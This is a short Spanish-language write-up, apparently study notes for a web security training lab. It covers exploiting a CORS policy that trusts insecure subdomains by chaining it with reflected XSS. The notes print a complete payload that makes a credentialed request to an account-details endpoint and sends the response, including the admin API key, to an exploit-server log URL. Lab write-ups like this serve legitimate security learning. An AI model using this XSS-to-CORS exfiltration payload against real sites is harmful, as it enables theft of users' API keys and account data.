 En esta clase continuamos con la explotación del laboratorio anterior, donde la configuración CORS del servidor acepta solicitudes desde cualquier subdominio, incluso si estas provienen de un origen no seguro (HTTP).

Profundizamos en cómo aprovechar una vulnerabilidad de XSS reflejado en un subdominio que opera sobre HTTP, lo cual nos permite inyectar y ejecutar un script malicioso. Dicho script accede al endpoint sensible de la cuenta del administrador y, gracias a la configuración permisiva del servidor, la clave API es expuesta. Este valor es redirigido al servidor de explotación para completar con éxito el laboratorio.

Solucion
Segimos con el script

<script>
    document.location="http://stock.0a2e00b004e4e31e81c24391008f00ae.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a2e00b004e4e31e81c24391008f00ae.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a97004f0494e312811342b1019000de.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>

el apikey me lo dio asi con los logs
![Pasted_image_20250728225235.png](Imagenes/Pasted_image_20250728225235.png)
